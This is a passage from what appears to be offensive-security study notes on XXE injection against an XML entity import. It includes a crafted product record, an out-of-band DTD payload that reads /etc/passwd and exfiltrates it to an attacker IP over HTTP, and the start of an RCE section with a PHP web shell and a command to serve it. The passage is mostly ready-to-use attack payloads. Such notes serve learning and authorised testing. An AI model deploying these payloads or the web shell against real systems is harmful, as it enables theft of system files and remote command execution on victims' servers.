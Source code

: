 ```xml
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE" createdStamp="2021-06-04 08:16:18.258">
<longDescription>XXE</longDescription>
<description>&xxe;</description>
</Product>
</entity-engine-xml>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Out-of-Band

If we cannot access the results of our XXEI attack or obtain verbose error messages, we can use external entities to reference resources on other servers and exfiltrate data as part of the request that loads the external resource.

{% code title="external.dtd" overflow="wrap" %}
```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.214/out?%content;'>" >
```
{% endcode %}

The payload can be seen below. We start by including a parameter entiry that reference `external.dtd` and then with the `%base` entity, which will cause the parser to parse the `external.dtd` file. Next, the parser will expand the `external` entity, creating the `exfil` entity which we will then reference.

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.214/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

### RCE

We can achieve RCE via a URL-referenced DTD.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}
